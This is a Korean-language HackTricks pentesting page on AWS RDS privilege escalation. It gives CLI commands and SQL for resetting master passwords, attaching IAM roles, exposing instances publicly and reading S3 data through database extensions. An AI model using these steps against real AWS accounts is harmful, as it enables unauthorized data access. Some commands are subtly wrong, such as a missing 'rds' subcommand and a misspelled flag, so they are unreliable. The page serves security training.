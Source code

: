 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 더 많은 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 통해 공격자는 **마스터 사용자 비밀번호를 수정**하고 데이터베이스 내에서 로그인할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연결할 수 있어야 합니다** (일반적으로 내부 네트워크에서만 접근할 수 있습니다).
{% endhint %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면, 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행했을 때 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 있는 것입니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 접근하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장을 살펴보면 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 찾으면 이 데이터베이스가 **S3에 대한 어떤 종류의 접근 권한**을 가지고 있다고 가정할 수 있습니다 (다른 확장자도 있습니다, 예: **`aws_ml`** 및 **`aws_lambda`**).

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면, **`AssociatedRoles`** 필드에서 **클러스터에 연결된 IAM 역할**이 있는지 확인할 수 있습니다. 만약 있다면, 데이터베이스가 **다른 AWS 서비스에 접근할 수 있도록 준비되었다고** 가정할 수 있습니다. **역할의 이름**(또는 역할의 **권한**을 얻을 수 있다면)을 기반으로 데이터베이스가 어떤 추가 접근 권한을 가지고 있는지 **추측**할 수 있습니다.

이제 **버킷 안의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **원시 AWS 자격 증명**이 있다면, 다음과 같이 S3 데이터에 접근할 수 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **은 S3에 접근하기 위해 어떤 파라미터 그룹 변수를 변경할 필요가 없습니다.**
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내부에서 **`SELECT User, Host FROM mysql.user;`** 쿼리를 실행했을 때 **`rdsadmin`**이라는 사용자가 있다면, **AWS RDS mysql db** 내부에 있다고 가정할 수 있습니다.
{% endhint %}

mysql에서 **`show variables;`**를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**와 같은 변수에 값이 있다면, 데이터베이스가 S3 데이터에 접근할 준비가 되어 있다고 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면 클러스터에 **연관된 역할**이 있는지 확인할 수 있으며, 이는 일반적으로 AWS 서비스에 대한 접근을 의미합니다.

이제 **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.\
일부 DB는 추가 구성이 필요하다는 점에 유의하십시오. 예를 들어 Mysql은 매개변수 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 **이미 존재하고 IAM 역할이 연결된 클러스터 내에 새로운 인스턴스**를 생성할 수 있습니다. 그는 마스터 사용자 비밀번호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출할 수 있을지도 모릅니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 연결된 새로운 RDS 인스턴스를 생성할 수 있습니다**. 공격자는 이후 **민감한 데이터에 접근하거나** 인스턴스 내의 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
연결할 역할/인스턴스 프로필의 일부 요구 사항 ( [**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 관련된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.

{% hint style="warning" %}
DB 인스턴스는 클러스터 외부에 있어야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
